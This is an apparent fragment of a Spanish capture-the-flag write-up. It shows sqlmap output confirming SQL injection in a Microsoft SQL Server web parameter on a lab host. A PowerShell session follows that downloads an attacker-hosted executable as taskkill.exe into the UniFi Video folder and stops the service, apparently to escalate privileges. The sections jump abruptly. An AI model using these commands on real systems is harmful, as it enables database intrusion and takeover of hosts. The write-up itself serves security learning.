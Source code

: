 Iniciamos usando sqlmap sin opciones para analizar el resultado:

```
xbytemx@laptop:~$ sqlmap -u "http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18"
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.3.2#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:55:54 /2019-02-15/

[11:55:54] [INFO] testing connection to the target URL
[11:55:54] [INFO] checking if the target is protected by some kind of WAF/IPS
[11:55:55] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
do you want sqlmap to try to detect backend WAF/IPS? [y/N]
[11:55:59] [WARNING] dropping timeout to 10 seconds (i.e. '--timeout=10')
[11:55:59] [INFO] testing if the target URL content is stable
[11:55:59] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit]
[11:56:18] [INFO] searching for dynamic content
[11:56:18] [INFO] dynamic content marked for removal (1 region)
[11:56:19] [INFO] testing if GET parameter 'ProductSubCategoryId' is dynamic
[11:56:19] [INFO] GET parameter 'ProductSubCategoryId' appears to be dynamic
[11:56:19] [INFO] heuristic (basic) test shows that GET parameter 'ProductSubCategoryId' might be injectable (possible DBMS: 'Microsoft SQL Server')
[11:56:19] [INFO] testing for SQL injection on GET parameter 'ProductSubCategoryId'
it looks like the back-end DBMS is 'Microsoft SQL Server'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'Microsoft SQL Server' extending provided level (1) and risk (1) values? [Y/n]
[11:56:29] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:56:30] [WARNING] reflective value(s) found and filtering out
[11:56:30] [INFO] GET parameter 'ProductSubCategoryId' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[11:56:30] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[11:56:30] [INFO] GET parameter 'ProductSubCategoryId' is 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)' injectable
[11:56:30] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[11:56:31] [INFO] GET parameter 'ProductSubCategoryId' is 'Microsoft SQL Server/Sybase inline queries' injectable
[11:56:31] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[11:56:31] [WARNING] time-based comparison requires larger statistical model, please wait................... (done)
[11:56:45] [INFO] GET parameter 'ProductSubCategoryId' appears to be 'Microsoft SQL Server/Sybase stacked queries (comment)' injectable
[11:56:45] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[11:56:56] [INFO] GET parameter 'ProductSubCategoryId' appears to be 'Microsoft SQL Server/Sybase time-based blind (IF)' injectable
[11:56:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:56:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:56:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:56:57] [INFO] target URL appears to have 25 columns in query
```

[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService